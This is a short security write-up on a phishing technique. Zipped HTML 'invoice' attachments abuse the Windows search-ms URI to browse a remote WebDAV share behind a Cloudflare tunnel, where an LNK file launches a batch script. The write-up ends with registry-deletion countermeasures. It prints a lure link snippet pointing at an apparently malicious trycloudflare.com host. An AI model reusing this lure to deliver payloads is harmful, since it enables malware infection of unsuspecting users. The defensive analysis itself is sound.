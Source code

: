 - HTML attachments that abuse the Windows search protocol (search-ms URI) to push batch files hosted on remote servers that deliver malware.
- Windows Search protocol is a Uniform Resource Identifier (URI) that enables applications to open Windows Explorer to perform searches using specific parameters.

### Steps in the exploit
1. Victim receives an email with a zip file.
2. Zip file contains a HTML attachment disguised as an invoice document.
3. HTML file has the following tag which causes the browser to automatically open a malicious URL.
```HTML
<meta http-equiv= "refresh">
```
4. If the browser blocks this, an alternative clickable link is available on the webpage for the user to click.
5. The URL causes the windows search protocol to perform a search on a remote host using the following parameters
	1. Query: Searches for items labeled "INVOICE."
	2. Crumb: Specifies the search scope, pointing to a malicious server via Cloudflare.
	3. Displayname: Renames the search display to "Downloads" to mimic a legitimate interface.
	4. Location: Uses Cloudflare's tunneling service to mask the server, making it look legitimate by presenting remote resources as local files.
```HTML
<ps><a href= "search: query= INVOICE&amp; crumb=location:\\tender-coding-bi-associate.trycloudflare.com@SSL \DavWWWRoot\google\INVOICE&amp; displayname ></a></p>
```
6. Search retrieves a single LNK file hosted on the remote server pointing to a BAT script.
7. If victim clicks on the shortcut, the script runs on the local machine.


### Suggested countermeasures
- Deleting registry entries associated with the search-ms/search URI protocol
```
reg delete HKEY_CLASSES_ROOT\search /f
reg delete HKEY_CLASSES_ROOT\search-ms /f
```

